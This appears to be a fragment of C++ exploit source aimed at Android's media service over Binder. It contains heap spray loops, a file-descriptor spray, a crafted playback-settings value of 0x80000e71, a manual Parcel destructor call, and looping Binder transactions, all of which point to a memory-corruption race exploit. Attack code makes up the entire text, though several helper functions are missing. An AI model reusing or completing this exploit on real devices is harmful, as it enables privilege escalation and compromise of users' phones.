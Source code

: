 ```c
void heap_spray_times()
{
	for (int i = 0; i < HEAP_SPRAY_TIME; i++)
	{
		heap_spray();
		heapGuard();
	}
}

void init_fd_heap_spray()
{
	const char * path = "/data/local/tmp/test_dir/abcd.txt";
        fd_heap_spray = open(path, O_WRONLY);
	if (fd_heap_spray < 0)
	{
		printf("[-] fd_heap_spray failed\n");
	}
}

status_t init_reply_data()
{
	setDataSource();
	AudioPlaybackRate rate;
	rate.mSpeed = 1;
	rate.mPitch = 1;
	rate.mStretchMode = (AudioTimestretchStretchMode)0;
	rate.mFallbackMode = (AudioTimestretchFallbackMode)0x80000e71;
        return mediaPlayer->setPlaybackSettings(rate);
}

void bc_free_buffer(int replyParcelIndex)
{
	replyArray[replyParcelIndex].~Parcel();
	IPCThreadState::self()->flushCommands();
}

void* bc_transaction(void *arg)
{
	pthread_mutex_lock(&alloc_mutex);
	while(1) 
	{
		pthread_cond_wait(&alloc_cond, &alloc_mutex);
		dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);
	}
	pthread_mutex_unlock(&alloc_mutex);
    	//const uint8_t * replyData = reply.data();
	return arg;
}

void restartWatch()
{
	if (global_parcel_index % 200 == 0)
	{
		stop_watch();
		usleep(100);
		begin_watch();
		usleep(100);
	}
}

```